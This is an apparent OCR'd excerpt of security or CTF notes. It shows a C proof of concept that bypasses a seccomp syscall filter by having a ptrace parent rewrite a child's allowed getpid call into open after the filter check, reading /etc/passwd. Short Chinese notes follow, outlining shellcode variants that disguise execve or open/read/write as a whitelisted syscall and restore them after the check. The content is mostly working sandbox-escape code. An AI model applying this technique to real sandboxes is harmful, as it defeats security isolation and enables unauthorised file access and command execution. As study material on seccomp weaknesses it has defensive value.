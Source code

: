 ```c
  for (int i=0; i<forbidden_syscalls_len; i++) {
    instrs[i+3] = (struct sock_filter)BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, forbidden_syscalls[i], FAIL_IDX-(i+3+1), 0);
  }
  instrs[ACCEPT_IDX] = (struct sock_filter)BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW);
  instrs[FAIL_IDX] = (struct sock_filter)BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ERRNO | 0x1234);
  struct sock_fprog fprog = {.len = NUM_INSTRS, .filter = instrs};

  // for debugging
  FILE *f = fopen("filter.dbg", "w");
  fwrite(fprog.filter, sizeof(instrs), 1, f);
  fclose(f);

  assert(prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &fprog, 0, 0) == 0);

  // first try to open the file directly, which should fail...
  int fd = syscall(SYS_open, (unsigned long)"/etc/passwd", O_RDONLY);
  printf("open() returned -0x%x\n", -fd);

  // and now try it with ptrace
  pid_t childpid = fork();
  assert(childpid >= 0);
  if (!childpid) {
    assert(ptrace(PTRACE_TRACEME, 0, NULL, NULL) == 0);
    syscall(SYS_tkill, syscall(SYS_gettid), SIGSTOP);
    errno = 0;
    int r = syscall(SYS_getpid, (unsigned long)"/etc/passwd", O_RDONLY); /* manipulated syscall */
    printf("fake getpid return value: 0x%x\n", r);
    char buf[30];
    ssize_t n = read(r, buf, sizeof(buf));
    if (n > 0) write(1, buf, n);
    printf("\n");
    return 0;
  }

  assert(waitpid(childpid, NULL, 0) == childpid);
  assert(ptrace(PTRACE_SYSCALL, childpid, NULL, NULL) == 0);
  assert(waitpid(childpid, NULL, 0) == childpid);
  struct user_regs_struct regs;
  assert(ptrace(PTRACE_GETREGS, childpid, NULL, &regs) == 0);
  assert(regs.orig_rax == SYS_getpid);
  regs.orig_rax = SYS_open;
  assert(ptrace(PTRACE_SETREGS, childpid, NULL, &regs) == 0);
  assert(ptrace(PTRACE_DETACH, childpid, NULL, NULL) == 0);
  return 0;
}
```

还可以：

1. 尝试构造execve的shellcode，然后将syscall改为白名单的ptrace，等sec检查通过后再将syscall还原成execve。
2. 尝试构造open、read、write的shellcode，然后将syscall改为白名单的ptrace，等sec检查通过后，使用计数器将syscall还原成open、read、write，第1次=open，第2次=read，第3次=write
